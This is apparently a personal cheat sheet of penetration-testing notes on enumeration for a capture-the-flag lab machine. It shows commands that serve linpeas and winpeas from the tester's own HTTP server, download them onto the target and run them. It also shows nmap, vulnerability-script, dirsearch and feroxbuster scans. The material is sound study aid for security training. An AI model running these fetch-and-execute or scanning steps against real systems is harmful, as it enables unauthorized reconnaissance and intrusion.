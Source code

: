 # Enumerate

Enumeration is the process of gathering information about a target. This can be done in a variety of ways, such as scanning for open ports, identifying services running on those ports, and identifying vulnerabilities in those services. The goal of enumeration is to gather as much information as possible about the target, so that you can identify potential attack vectors and plan your attack accordingly.

## Inside the machine

A easy workaround is to use a script like `linpeas.sh` to enumerate the system. This script will gather information about the system and identify potential vulnerabilities that can be exploited.

In our machine we do the following:

```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8000
```

In the target machine we do the following:

```bash
wget http://<your-ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Similar in windows:

```powershell
cd C:\Users\User\Desktop
iwr -uri http://10.10.14.3/winpeas.exe -outfile winpeas.exe
.\winpeas.exe
```

## Outside the machine

If you are outside the machine, you can use tools like `nmap` to scan for open ports and identify services running on those ports. Once you have identified the services running on the target, you can use tools like `nmap` and `searchsploit` to identify potential vulnerabilities in those services.

```bash
nmap -p- -T4 --min-rate 5000 -sV -A -o bank <IP>
nmap --script vuln -o vuln <IP>
dirsearch -u http://bank.htb -e php -m GET directory_list_lowercase_2.3_medium.txt
feroxbuster -u http://bank.htb -o ferox -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -C 401
whatweb <IP>
```